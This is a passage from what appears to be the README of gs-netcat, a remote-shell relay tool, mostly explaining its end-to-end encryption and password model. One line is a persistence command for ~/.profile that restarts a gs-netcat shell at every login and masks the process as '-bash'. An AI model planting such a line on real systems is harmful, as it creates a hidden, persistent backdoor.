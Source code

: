 Alternatively install gs-netcat as a [systemd service](examples/systemd-root-shell).

Alternativly and if you do not have root privileges then just append the following line to the user's *~/.profile* file. This will start gs-netcat (if it is not already running) the next time the user logs in. There are [many other ways to restart a reverse shell after system reboot](https://www.gsocket.io/deploy):
```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a -bash /usr/local/bin/gs-netcat)
```
---
**Crypto / Security Mumble Jumble**
1. The security is end-2-end. This means from User-2-User (and not just to the Relay Network). The Relay Network relays only (encrypted) data to and from the Users. 
2. The session key is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password).
3. The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
4. Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *gs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
5. If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
6. Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a &lt;token&gt; if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
7. SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
8. It is possible (by using traffic analytics) to determine that Alice is communicating with Bob. The content of such communcitation is however secret (private)  and can not be revealed by an ISP or the GSRN backend. The gsocket tools (such as gs-netcat) support the -T flag to anonymize the traffic via TOR.
9. I did not invent SRP. It's part of OpenSSL :>
---

             If netcat is a swiss army knife then gs-netcat is a germanic battle axe... 
                                                                    --acpizer/UnitedCrackingForce

Join us 

Telegram: https://t.me/thcorg 

Twitter: https://twitter.com/hackerschoice

shoutz: D1G, [@xaitax](https://twitter.com/xaitax), #!adm
